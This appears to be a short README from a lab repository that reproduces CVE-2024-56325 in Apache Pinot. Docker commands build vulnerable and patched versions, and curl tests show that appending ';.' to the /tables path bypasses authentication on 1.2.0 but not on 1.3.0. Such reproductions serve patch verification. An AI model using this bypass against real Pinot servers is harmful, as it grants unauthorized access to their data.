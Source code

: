 # setup vulnerable version
```bash
docker build --build-arg PINOT_VERSION=1.2.0 -t pinot-jdk21-debian:1.2.0 .
docker run --rm -p 9000:9000 --name pinot-CVE-2024-56325 pinot-jdk21-debian:1.2.0
```
## test vulnerable version
```bash
curl -v http://localhost:9000/tables
# 401 Unauthorized
# {"code":401,"error":"HTTP 401 Unauthorized"}
curl -v http://localhost:9000/tables\;.
# 200 OK
# {"tables":[]}
```

# setup fixed version
```bash
docker build --build-arg PINOT_VERSION=1.3.0 -t pinot-jdk21-debian:1.3.0 .
docker run --rm -p 9001:9000 --name pinot-CVE-2024-56325-patched pinot-jdk21-debian:1.3.0
```
## test secure version
```bash
curl -v http://localhost:9001/tables
# 401 Unauthorized
# {"code":401,"error":"HTTP 401 Unauthorized"}
curl -v http://localhost:9001/tables\;.
# 401 Unauthorized
# {"code":401,"error":"HTTP 401 Unauthorized"}
```
